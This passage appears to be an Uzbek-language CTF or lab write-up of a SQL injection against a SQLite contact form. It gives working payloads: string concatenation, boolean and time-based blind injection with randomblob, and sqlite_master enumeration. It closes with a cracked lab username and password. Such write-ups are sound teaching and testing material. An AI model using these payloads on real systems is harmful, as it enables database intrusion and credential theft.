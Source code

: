 ```
'||1||'
```
Bu degani:
```
INSERT INTO contacts(email, message) VALUES('' || 1 || '', ?)
```

Email uchum ```test@gmail.com || 1 || ``` yozuvi deb olsak ```||``` orqali ikkita stringni bir-biriga qo'shsak bo'ladi, bu degani "test@gmail1" ko'rinishiga keladi Email DBga yozilgan paytda. Endi

```
'|| SELECT 1 ||'
```

qilib query ishlatsak bo'ladi, teoriya bo'yicha bu error qaytarmaydi hammasi joyida. Agar bitta Quote olib tashlansa 500 javob olamiz, bu degani to'g'ri yo'ldamiz. Endi bizga Boolean based hujum kerak javob to'g'ri-noto'g'riligini bilgani:

```
' || CASE WHEN 1=1 THEN '1' ELSE '0' END || '
```

Lekin CASE WHEN dagi javob har xil bo'lsa ham Response length, status code bir xil keladi. Demak Time-based hujumga o'tishni vaqti keldi, faqat undan oldin harakat qilib ko'rgan yo'limni ko'rsataman:

```
' || CASE WHEN 1=1 THEN "'" ELSE '' END || '
```

Bu degani 1=1 True qaytaradi, keyin Query email ohiriga bitta Quote kiritadi, reja bo'yicha "email'" input DBMSda error berib menga 500 javob qaytishi kerak, lekin Ikkitalik bilan bittalik Quotelarni bitta joyda ishlatishni yo'lini topolmadim.

O'rniga bitta Quote bilan error qaytarish o'rniga uzoqroq vaqtdan keyin javob qaytarishga harakat qilsak bo'ladi ([randomblob docs](https://database.guide/how-randomblob-works-in-sqlite/)):

```
' || CASE WHEN 1=1 THEN hex(randomblob(50000000)) ELSE '' END || '
```

Ohirgi Backenddagi SQL Query shu ko'rinishga keladi:

```
INSERT INTO contacts (email, message) VALUES ('test@gmail.com' || CASE WHEN 1=1 THEN hex(randomblob(50000000)) ELSE '' END || '', 'test yozuv');
```

Information_schemaga o'xshab SQLiteda sqlite_master bor, shu yerdan table name olishimiz mumkin:
```
' || CASE WHEN
(SELECT tbl_name FROM sqlite_master WHERE type='table' LIMIT 1)='users'
THEN hex(randomblob(50000000))
ELSE ''
END || '
```

shu bilan columnlarni birma-bir fuzz qilsak bo'ladi.

5) Bizda 4ta user va parol hashlari bor MD5 ko'rinishida, crack qilsak faqat "appsecchi" uchun parol crack bo'ladi halos parol - "joyland1":
